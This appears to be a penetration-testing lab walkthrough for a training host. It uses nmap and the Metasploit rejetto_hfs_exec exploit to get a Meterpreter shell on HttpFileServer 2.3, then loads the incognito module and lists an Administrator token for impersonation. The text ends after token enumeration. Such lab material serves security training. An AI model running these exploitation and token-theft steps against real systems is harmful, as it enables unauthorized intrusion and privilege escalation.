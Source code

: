 ### **🧪 Complete Token Impersonation Lab Example from Incognito Module**

**Lab Scenario: HFS Server to Administrator Token Escalation**

**Target:** demo.ine.local (10.0.20.121)
**Goal:** Escalate from service account to Administrator privileges using token impersonation
**Initial Access:** HttpFileServer 2.3 vulnerability exploitation
**Time Needed:** 8-12 minutes

#### **Phase 1: Initial Target Discovery and Exploitation**

**Service Discovery:**
```bash
nmap demo.ine.local
# Result: Port 80 open with HttpFileServer httpd 2.3

nmap -sV -p 80 demo.ine.local
# Confirmed: HttpFileServer httpd 2.3 (vulnerable service)
```

**Initial Exploitation:**
```bash
msfconsole -q
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS demo.ine.local
exploit

# Success: Meterpreter session 1 opened
meterpreter > getuid
# Current status: NT AUTHORITY\LOCAL SERVICE (limited privileges)
```

**Demonstrate Limited Access:**
```bash
meterpreter > cat C:\\Users\\Administrator\\Desktop\\flag.txt
# Result: [-] stdapi_fs_stat: Operation failed: Access is denied.
# This proves we need privilege escalation
```

#### **Phase 2: Token Impersonation Privilege Escalation**

**Load Incognito Module:**
```bash
meterpreter > load incognito
# Loading extension incognito ... Success.
```

**Token Enumeration:**
```bash
meterpreter > list_tokens -u
# Critical Discovery:
# Delegation Tokens Available
# ========================================
# ATTACKDEFENSE\Administrator  ← Perfect target!
# NT AUTHORITY\LOCAL SERVICE

# Impersonation Tokens Available
# ========================================
# No tokens available
```

